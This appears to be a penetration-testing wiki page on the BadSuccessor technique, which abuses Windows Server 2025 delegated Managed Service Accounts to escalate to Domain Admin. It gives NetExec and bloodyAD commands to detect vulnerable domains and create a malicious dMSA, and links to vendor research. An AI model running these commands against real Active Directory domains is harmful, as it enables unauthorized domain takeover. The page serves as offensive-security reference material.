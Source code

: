 # 🛠️ BadSuccessor (dMSA abuse)

## Theory

In Windows Server 2025, Microsoft introduced [delegated Managed Service Accounts (dMSAs).](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview) A dMSA is a new type of service account in Active Directory (AD) that expands on the capabilities of [group Managed Service Accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/group-managed-service-accounts-overview) (gMSAs).&#x20;

If we have **`GenericAll`**, **`CreateChild`**, **`WriteDACL`**, or **`WriteOwner`** permissions on _any_ OU—or can modify an existing dMSA, we can escalate from low-level access to full Domain Admin via the **BadSuccessor** technique.

{% hint style="warning" %}
**Exploiting this vector does not require the domain to actively use dMSAs.** The feature is automatically enabled in any domain that includes at least one Windows Server 2025 domain controller, and its presence alone is enough to make the attack path viable.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to enulerate  if a a target is vulnerable to bad successor attack&#x20;

```bash
netexec ldap $DC_IP -u $USER -p $PASSWORD -M badsuccessor
```

We can  then exploit it using [BloodyAd](https://github.com/CravateRouge/bloodyAD) (Python).

```bash
# Enumerate writable attributes for the user we are authenticating as
bloodyAD -d $DOMAIN_FQDN -u $USER -p $PASSWORD --host $DC_FQDN get writable --detail

# BadSuccessor attack to create the dMSA object called dmsa_pwn
bloodyAD -d $DOMAIN_FQDN -u $USER -p $PASSWORD --host $DC_FQDN add badSuccessor dmsa_pwn
```
{% endtab %}

{% tab title="Windows" %}
TODO
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory" %}

{% embed url="https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/" %}
